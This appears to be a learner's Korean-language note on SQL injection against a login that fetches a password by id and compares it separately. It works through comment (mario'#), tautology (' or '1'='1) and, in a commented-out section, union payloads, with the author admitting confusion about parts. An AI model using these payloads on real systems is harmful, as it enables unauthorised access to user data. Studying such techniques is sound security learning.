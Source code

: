 # 식별 & 인증 분리(SQL Injection)

SQL Injection 기법 중에서 식별과 인증을 분리하여 처리하는 케이스.

하단의 query문과 메커니즘을 사용한다는 것으로 가정한다.
```
select pass from member where id=''
```
```
if( db_pass == userinput_pass ){     
    로그인 성공    
}else      
```

query 문의 의미는 사용자가 입력한 id를 database 에서 검색해서 password 를 추출한다.

그리고 추출한 password 를 사용하자 입력한 password 와 비교하여 검증하는 방식이다.
</br>
</br>
</br>

# \# (주석) (의미없음)

id : mario'# 을 입력한다면 
```
id : mario'#
pw : 1234
```
</br>

query 문은 아래와 같이 적용될 것이다.
```
select pass from member where id='mario'#'
``` 
</br>

주석처리로 없어짐
```py
#'
```
</br>

실제로 실행되는 query
```
select pass from member where id='mario'
```
![5](https://user-images.githubusercontent.com/106296883/232677748-9f142f84-3193-4c49-a9bb-dc2cdc552b4e.PNG)

뭐가 다른 거지? 

분리에서의 주석처리는 의미없어 보인다.
</br>
</br>
</br>

# or

id : mario' or '1'='1 입력한다면
```
id : mario' or '1'='1
```
![6](https://user-images.githubusercontent.com/106296883/233332562-7d10d334-fd07-40ce-8710-9b729c467248.PNG)

모든 데이터가 나온다.

```
id : mario' or '1'='1

id : mario = TRUE
'1'='1'    = TRUE

select pass from member where TRUE
```
![7](https://user-images.githubusercontent.com/106296883/233333418-300babdb-6984-4817-ac8d-6d85386c10e0.PNG)
</br>
</br>
</br>

# union



## 분리는 전체적으로 잘 모르겠다.







































<!-- 

## or 
```
id : mario' union select 1,2,3,4 or'1'='1
pw : 1234
```
↓
```
select * from member where id='mario' union select 1,2,3,4 or'1'='1' and pass='1234'
```
↓
```
'1'='1' and pass='1234'

FALSE
```
↓
```
union select 1,2,3,4 or FALSE 

TRUE
```
![4](https://user-images.githubusercontent.com/106296883/232668683-066c15c5-a976-41b3-ab1c-daabafeab9be.PNG) -->
